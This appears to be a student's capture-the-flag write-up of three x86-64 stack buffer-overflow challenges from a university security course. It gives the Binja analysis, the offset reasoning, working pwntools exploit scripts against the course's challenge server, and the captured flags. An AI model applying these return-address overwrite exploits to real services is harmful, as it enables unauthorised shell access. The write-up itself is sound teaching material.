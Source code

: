 # 5. write-up (buffer overflows)

## 🟢 bof-50
**Solve:**
Run `readelf -h bof` to gain basic info on the compiled binary. We notice it's a static binary and no-PIE, which means all the symbols addresses are absolute rather than offsets. 

Use Binja for static analysis. The goal is to map out the program. Entering Binja, we see there's a main() function that allocates a buffer and prompts for user input. Looking around, we notice an interesting function called get_shell(). It pops a shell for us. Our goal is to call this function by overwriting the return address when the program prompts for user input, because then, we can take control of the remote server. 

Open up stack view of main's stack frame on Binja, and we notice that the buffer is at an offset of 0x28 bytes before the return address. This means we should enter 0x28 bytes of any character, and immediately enter the address of get_shell() such that it overwrites precisely the return address. 

We'll write a python script for this exploit. For sending the address of get_shell, we use p64(), which accepts a hex address, encodes it in little-endian by default, and pads the rest of it with zeroes so the whole address is 8 bytes long. Little-endian is desired as return addresses are interpreted as numbers, which are read in little-endian in our case. 

Python script is shown here:
```python
from pwn import *
print("before ELF line")
p = remote("offsec-chalbroker.osiris.cyber.nyu.edu", 1280)

p.recvuntil("123): ".encode()) # .encode() turns str into raw bytes
p.sendline("hw3172")
p.recvuntil("> ".encode())
p.sendline(b"B"*0x28 + p64(0x401218))
# ^ same as: p.sendline(b"B"*0x28 + b"\x18\x12\x40\x00\x00\x00\x00\x00")
# p64() sends the addr in little-endian and pads it with zeroes until it's
# 8 bytes full
p.interactive()
```

**Flag:**
flag{Sm4sh1ng_Th3_St4ck_m0stly_f0r_fUn!_a82ea14bef65b164}

**Summary:**
- flow: unchecked buffer on stack --> use user input to overwrite return addr to call an interesting function called get_shell(), which pops a shell for us on the remote system --> run `ls` to see files --> notice flag.txt --> `cat flag.txt` to see its content
- concepts: - memory layout - function prologue - `call` instruction before function prologue
- techniques: - when you overwrite the return addr, make sure your sent-in return addr is complete. This means if the target architecture is 64-bits (8 bytes) where memory addrs are encoded with 8 bytes, your sent-in addr should also be 8 bytes. This implies padding the end with zeroes may be required.
- problems: ELF takes up too much memory on Amazon VM and quits script. That's why I'm manually writing get_shell's address instead of using p64 


## 🟢 bypass-50
**Solve:**
Let's map out the program with Binja. main() calls an init() function which opens a file "/dev/urandom" and stores whatever's read into the address of the global variable number. Then, main() prints a question and calls the get_input() function. Inside get_input, user input is taken into the buffer. A local variable called number_1 gets assigned number. And this number gets printed out to us. The only way to avoid fail() and noreturn is if number equals number_1. Beyond these two functions is a function called win() which will pop us a shell. This means that inside get_input(), our goal is to overwrite the return address to win(), while maintaining that number_1 equals number. 

Look at the stack view of get_input() on Binja to figure out how we should structure our input. 
![[Captura de pantalla 2024-10-22 a las 13.50.56.png]]
We see that the buffer is 0x28 bytes before the return address. But we can't just send in 0x28 bytes of whatever data plus 8 bytes for return address, because that would overwrite var_10, which is actually the local variable number_1. Recall that number_1 should equal number. This means we should fill in 24 bytes of any data, then 8 bytes equal to number, then 8 bytes of any data, then 8 bytes for the desired return address. How can we access the number so we can send it in? Number gets printed out to us. So we can take that, turn it into hex number and send it in little-endian as raw bytes. 

Write a pwntools script to send the correct payload:
```python
from pwn import *
p = remote("offsec-chalbroker.osiris.cyber.nyu.edu", 1281)

p.recvuntil("abc123): ".encode())
p.sendline("hw3172".encode())
p.recvuntil("you: ".encode())
num = p.recvuntil("\n".encode(), drop=True) # obtain number that gets printed for us
num = num[2:] # get rid of '0x' prefix
num = str(num).upper()
num = num[2:-1]

raw_bytes_num = bytes.fromhex(num)
little_endian_raw_bytes = raw_bytes_num[::-1]

p.recvuntil("> ".encode())
# overflow buffer: 24 bytes anything + number + 8 bytes anything + win()
p.sendline(b"a"*0x18 + little_endian_raw_bytes + b"a"*0x8 + p64(0x401390))

p.interactive()
```

Notice that for return address, I didn't put in address to win() which is supposed to be 0x401383. Instead, I put 0x1390, which is inside of win(), specifically the line that prints "You made it!". The reason is if the return address was overwritten to be win(), we effectively jump to win(). No `call` instruction is run, which means no return address is pushed onto the stack before jumping. Looking at the disassembly for win(), entering win() which is what happens after we jump to it, the rbp gets pushed onto the stack. Since the rbp is 8 bytes, the stack grows by 8 bytes, i.e. the stack pointer rsp gets decremented by 8. According to rules, before every `call` instruction, the stack pointer must be 16-byte aligned, meaning it's a multiple of 16, otherwise the `call` instruction will not run. In our case, after pushing rbp, the stack pointer is no longer 16-byte aligned, but 8-byte aligned. This is a problem, because the desired line `call system` will not run. The problem was found because I originally entered win()'s address for return address, received the "You made it!" string, but the shell didn't pop. I then ran gdp.debug in the python script to see what caused the program crash. Checking `info registers` allowed me to see the value of rsp at the time of crash, and I could see it did not end in 0 (i.e. not a multiple of 16). 

Our method of bypassing the stack-pointer alignment problem is to choose the return address to be somewhere that still gets us to the system call line, but skips the push-rbp part such that our stack pointer remains 16-byte aligned. I chose 0x401390 to be the return address. 

Flag: flag{n0_n33d_t0_gu3ss_wh3n_y0u_c4n_L34K_0f_th3_CaNarY_v4lu3!_00c149239f2f6feb}
## 🟢 lockbox-200
Solve:
Do initial recon of binary using Binja. Within main, it first calls init() which initializes a global variable "key" to be  a particular value. Then, it outputs some messages and prompts user input using gets(). Two more variables are founds after gets(). The first variable gets dereferenced and assigned to the second variable. This implies the first variable should a valid memory address, and the second value will be stored at that address.

Looking beyond main, we see an interesting function win(). We want to call win() because it contains a system call. However, the sys call currently is system("exit"), which will not pop us a shell. Before the sys call is a conditional. If key == 0xbeeff0cacc1a, we will update the variable my_string to be something new. Click on my_string to see that it's a string with the value "exit". We make an inductive guess that the sys call is made on whatever my_string is; my_string is passed as an argument to the sys call. Therefore, our goal is to change my_string from "exit" to "/bin/sh". We also guess that the updating to "/bin/sh" is already handled by the update of my_string involving an XOR operation. So all we have to do, is to make sure key equals key == 0xbeeff0cacc1a. 

Combining this with main's two variables, it is logical for us to overwrite the first variable to be the address of the global variable key, and overwrite the second variable to be 0xbeeff0cacc1a. Done right, this would indeed make key equal 0xbeeff0cacc1a. 

Our chance to overwrite the two variables in addition to the return address in order to call win() is when main() calls gets(). Let's construct our input!

Open stack view on Binja while in main. Notice that the user input buffer is at -0x48 from return address. The buffer itself takes 16 bytes. Immediately after is the first variable, taking 8 bytes. Then comes the second variable of 8 bytes. Then, there's 0x28 bytes of space for us to fill before reaching return address. We can construct our payload as shown in this pwntools script:
```python
from pwn import *
p = remote("offsec-chalbroker.osiris.cyber.nyu.edu",1282)

p.recvuntil("123): ".encode())
p.sendline("hw3172".encode())
p.recvuntil("> ".encode())
# payload: 0x10 bytes to fill buf + key's addr + key's desired value + 0x28 to fill + return addr (win's addr)
p.sendline(b"A"*0x10 + p64(0x404080) + p64(0xbeeff0cacc1a) + b"A"*0x28 + p64(0x401237))
#p.sendline(b"A"*0x40)
p.interactive()
```

Run this python script and obtain the flag.
Flag: flag{y0u_d0n't_n33d_4_k3y_1f_y0u_h4v3_4_BOF!_cfb7797d3487fefb}